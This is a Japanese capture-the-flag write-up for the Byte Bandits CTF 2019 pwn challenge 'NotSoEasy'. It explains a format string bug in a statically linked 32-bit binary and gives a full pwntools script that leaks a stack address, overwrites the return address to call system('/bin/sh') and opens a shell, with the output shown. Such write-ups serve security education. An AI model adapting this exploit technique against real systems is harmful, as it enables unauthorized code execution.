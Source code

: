 # [pwn 270pts] NotSoEasy - Byte Bandits CTF 2019
32ビットです。
```
$ checksec -f not_easy
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No	0		0	not_easy
```
static link + strippedという私の一番嫌いなやつです。
IDAで読むと、/dev/urandomから取得した文字列とfgetsで入力した文字列を比べて合ってても違っても特に大したことはしないバイナリです。
ただし、パスワードが違うときは入力をそのままprintfするのでFSBがあります。
その後putsが呼ばれるので、このGOTを書き換えたいところですが、static linkなので今回はリターンアドレスを書き換えます。
FSBは2回呼べるので、1回目でlibcのアドレスをリークし、2回目でリターンアドレスを書き換えます。

system関数っぽい関数のアドレスは、IDAで`/bin/sh`を検索して見つけました。

```python
from pwn import *

#addr_system = 0x8050790
addr_system = 0x8050bb8
addr_binsh = 0x80ae88c
sock = remote("127.0.0.1", 4001)
#sock = remote("13.233.66.116", 6969)
_ = raw_input()

sock.recvline()
payload = "%24$p"
sock.sendline(payload)
sock.recvline()
sock.recvline()
addr_buf = int(sock.recvline(), 16)
addr_retaddr = addr_buf + 64 - 0x100
print("&retaddr = " + hex(addr_retaddr))

writes = {
    addr_retaddr: addr_system,
    addr_retaddr+4: addr_binsh
}
payload = fmtstr_payload(
    1, writes, write_size = 'short'
)
print(hex(len(payload)))
sock.recvline()
sock.sendline(payload)
sock.recvline()
sock.recvline()
sock.recvline()
sock.interactive()
```

このコード書いた頃はptrlibがFSBに対応してなかったのでpwntools使ってますね。

```
$ python solve.py 
[+] Opening connection to 127.0.0.1 on port 4001: Done

&retaddr = 0xffb18f9c
0x3d
[*] Switching to interactive mode
Bye!
$ whoami
ptr
```

# 感想
static linkという点以外はよくあるFSB問題ですね。